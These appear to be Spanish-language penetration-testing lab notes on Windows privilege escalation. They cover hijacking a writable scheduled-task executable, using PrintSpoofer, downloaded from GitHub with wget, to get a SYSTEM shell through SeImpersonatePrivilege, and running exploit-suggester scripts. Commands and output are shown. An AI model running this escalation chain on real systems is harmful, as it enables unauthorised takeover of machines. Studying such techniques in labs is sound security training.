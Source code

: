 ## Scheduled Tasks

Revisamos los sched task
```cmd
schtasks /query /fo LIST /v
```
Revisamos permisos de ejecutables, si sale F es full access
```cmd
icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
C:\Users\steve\Pictures\BackendCacheCleanup.exe NT AUTHORITY\SYSTEM:(I)(F)
 BUILTIN\Administrators:(I)(F)
CLIENTWK220\steve:(I)(F)
CLIENTWK220\offsec:(I)(F)
```
Ya con esto podemos reemplazar el ejecutable

## SeImpersonatePrivilege

```cmd
whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State 
============================= ========================================= ========
SeSecurityPrivilege Manage auditing and security log Disabled
SeShutdownPrivilege Shut down the system Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled 
SeUndockPrivilege Remove computer from docking station Disabled
SeImpersonatePrivilege Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
SeTimeZonePrivilege Change the time zone Disabled
```
Podemos usar printspoofer
```cmd
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
.\PrintSpoofer64.exe -i -c powershell.exe
PS C:\Windows\system32> whoami
whoami
nt authority\system
```
## Windows Scripts 
```sh
wpc.exe --audit -a -o report
cd /Offsec 
python windows-exploit-suggester.py --database 2018-09-02-mssb.xls --systeminfo sys-info.txt
python windows-exploit-suggester.py --database 2018-09-02-mssb.xls --ostext 'Windows Server 2008 R2'
```

## Windows Commands 
